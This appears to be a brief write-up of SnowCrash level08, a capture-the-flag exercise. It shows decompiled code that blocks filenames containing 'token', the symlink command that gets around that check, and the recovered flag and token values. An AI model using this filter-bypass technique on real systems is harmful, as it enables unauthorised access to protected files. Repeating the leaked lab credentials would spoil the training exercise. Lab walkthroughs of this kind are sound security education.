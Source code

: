 In this level we have two files : level08 and Token
We use Ghidra to read level08 and we understand that the program is able to print what is in the Token, but 

```
  pcVar1 = strstr((char *)in_stack_00000008[1],"token");
  if (pcVar1 != (char *)0x0) {
    printf("You may not access \'%s\'\n",in_stack_00000008[1]);
  }
```

Denied us the access.

After many discussion and wrong way to solve it, we tried to make a symbolical link of Token juste to change it's name and read what's inside.

ln -s /home/user/level08/token /tmp/test4

Then we execute it : 

level08@SnowCrash:~$ ./level08 /tmp/test4
quif5eloekouj29ke0vouxean

We get our flag! 

We log on flag08 and type getflag and we get our token : 

/*********************************************************\

flag08@SnowCrash:~$ getflag 
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f

\*********************************************************/
